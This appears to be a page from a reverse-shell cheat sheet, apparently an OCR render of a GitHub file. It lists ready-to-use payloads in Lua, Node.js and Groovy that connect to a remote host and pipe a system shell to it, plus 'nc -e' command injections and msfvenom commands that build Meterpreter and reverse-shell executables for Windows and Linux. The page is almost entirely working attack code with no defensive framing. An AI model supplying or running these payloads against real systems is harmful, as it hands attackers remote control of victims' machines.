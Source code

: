 #### Windows and Linux

`lua5.1 -e 'local host, port = "1.1.1.1", 443 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'`

# NodeJS:

`(function(){`
    `var net = require("net"),`
        `cp = require("child_process"),`
        `sh = cp.spawn("/bin/sh", []);`
    `var client = new net.Socket();`
    `client.connect(443, "1.1.1.1", function(){`
        `client.pipe(sh.stdin);`
        `sh.stdout.pipe(client);`
        `sh.stderr.pipe(client);`
    `});`
    `return /a/; // Prevents the Node.js application form crashing`
`})();`

`require('child_process').exec('nc -e /bin/sh 1.1.1.1 443')`

`-var x = global.process.mainModule.require`
`-x('child_process').exec('nc 1.1.1.1 443 -e /bin/bash')`

https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py

# Groovy:

`String host="1.1.1.1";`
`int port=443;`
`String cmd="cmd.exe";`
`Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();`

# Meterpreter Shell:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=443 -f exe > reverse.exe`

`msfvenom -p windows/shell_reverse_tcp LHOST=1.1.1.1 LPORT=443 -f exe > reverse.exe`

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=443 -f elf >reverse.elf`

`msfvenom -p linux/x86/shell_reverse_tcp LHOST=1.1.1.1 LPORT=443 -f elf >reverse.elf`

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="1.1.1.1" LPORT=443 -f elf > shell.elf`

`msfvenom -p windows/meterpreter/reverse_tcp LHOST="1.1.1.1" LPORT=443 -f exe > shell.exe`
